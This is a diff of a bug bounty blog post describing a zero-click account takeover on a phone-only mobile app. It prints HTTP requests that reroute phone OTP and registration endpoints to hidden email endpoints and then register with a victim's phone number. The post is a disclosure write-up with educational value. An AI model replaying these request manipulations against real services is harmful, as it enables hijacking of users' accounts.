

Before and after one commit to Ibrahim-sec/Ibrahim-sec.github.io, a Markdown page: content/posts/Zero-Click-Account-Takeover-Through-Broken-Registration-Logic.md, the part around the change printed below. Shown: that part at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/content/posts/Zero-Click-Account-Takeover-Through-Broken-Registration-Logic.md
+++ b/content/posts/Zero-Click-Account-Takeover-Through-Broken-Registration-Logic.md
@@ -11,45 +11,84 @@ tags:
 ---
 
 
-What up, fellow hackers and bug bounty hunters! Today, I'm breaking down a critical, no-interaction account takeover vulnerability I discovered on a major e-commerce platform. This is a story of how I chained together several flawed API endpoints to hijack any user's account simply by knowing their phone number, without them ever clicking a link or entering a password.
+What up, fellow hackers and bug bounty hunters! Today, I'm breaking down a critical account takeover vulnerability I found on a mobile app that was supposed to be phone-only. This is a story of how I discovered hidden email endpoints by manipulating API requests, bypassed the entire phone verification process, and hijacked any user's account with just their phone number.
 
-## The Discovery: A New Mobile App
+## The Discovery: A Phone-Only System
 
-My journey began while testing a new mobile app released by the platform. The app used phone number authentication as its primary login method. During the initial setup, the app asks for your phone number and sends you an OTP. This is a standard flow, but I wanted to see what was happening under the hood. I fired up Burp Suite to intercept the mobile app's traffic.
+I was testing a mobile app that used phone numbers exclusively for registration and login. There was no visible option to use an email address anywhere. The flow was simple: you enter your phone number, get an OTP via SMS, and you're in.
 
-## The First Flaw: Unauthenticated OTP Generation
+I started by intercepting the traffic with Burp Suite to see how this worked. The initial request to send an OTP looked something like this:
 
-As I was exploring the app, I found an interesting endpoint that was used to send verification codes. When I requested to resend the code via email, I captured the following request:
+```http
+POST /store/v1/auth/phone/send_verification HTTP/2
+Host: api.vulnerable-platform.com
+Content-Type: application/json
+
+{"phone":"+15551234567","country_code":"SA"}
+```
+
+This was a standard request. But as a hacker, I'm always curious about what's *not* visible. What if the developers had built email functionality but hadn't enabled it in the app?
+
+## The First Breakthrough: Finding the Hidden Email Endpoint
+
+I decided to test my theory. I sent the captured request to Burp Repeater and started messing with it. I made two simple changes:
+
+1.  I changed the endpoint from `/phone/` to `/email/`.
+2.  I changed the JSON body from `"phone"` to `"email"` and put my own email address.
+
+The modified request looked like this:
 
 ```http
 POST /store/v1/auth/email/send_verification HTTP/2
 Host: api.vulnerable-platform.com
 Content-Type: application/json
 
-{"resend_by":"email","country_code":"SA","email":"attacker@email.com"}
+{"email":"attacker@email.com","country_code":"SA"}
 ```
 
-The critical flaw here was that this endpoint had **no authentication**. I could send a request with any email address in the body, and the server would happily send a valid verification code to that address. This was the first piece of the puzzle.
+I sent the request, and to my surprise, I received a `200 OK` response. A few seconds later, a valid OTP landed in my email inbox. This was a huge discovery. The application had a hidden, fully functional email verification system that wasn't exposed in the UI.
 
-## The Second Flaw: The Malicious Registration
+## The Second Breakthrough: The Flawed Registration
 
-Next, I dug deeper into the registration process. Through fuzzing and analyzing the app's traffic, I discovered the main registration endpoint:
+Now that I could get an OTP via email, I needed to find a way to use it. I went back to the app and captured the main registration request. It was also designed for phone numbers:
 
 ```http
-POST /store/v1/auth/register HTTP/2
+POST /store/v1/auth/phone/register HTTP/2
+Host: api.vulnerable-platform.com
+Content-Type: application/json
+
+{
+  "first_name":"test",
+  "last_name":"test",
+  "phone":"+15551234567",
+  "code":"1234", // Code from SMS
+  "country_code":"SA"
+}
+```
+
+I applied the same logic as before. I sent this request to Repeater and modified it:
+
+1.  Changed the endpoint from `/phone/` to `/email/`.
+2.  Added an `"email"` parameter with my email address.
+3.  Crucially, I kept the `"phone"` parameter, but this time I put the **victim's phone number** in it.
+4.  I used the `code` I had received in my email.
+
+The final malicious request looked like this:
+
+```http
+POST /store/v1/auth/email/register HTTP/2
 Host: api.vulnerable-platform.com
 Content-Type: application/json
 
 {
   "email":"attacker@email.com",
   "first_name":"test",
-  "code":"1234",
   "last_name":"test",
-  "phone":"+15551234567",
-  "verified_by":"email",
+  "phone":"VICTIM_PHONE_NUMBER", // The victim's phone number
+  "code":"6280", // The code from my email
   "country_code":"SA"
 }
 ```
 
-This endpoint was a goldmine of flawed logic. It allowed me to specify:
+## The Account Takeover
 
````
Also changed, not shown: other parts of content/posts/Zero-Click-Account-Takeover-Through-Broken-Registration-Logic.md (+24 -67 lines).
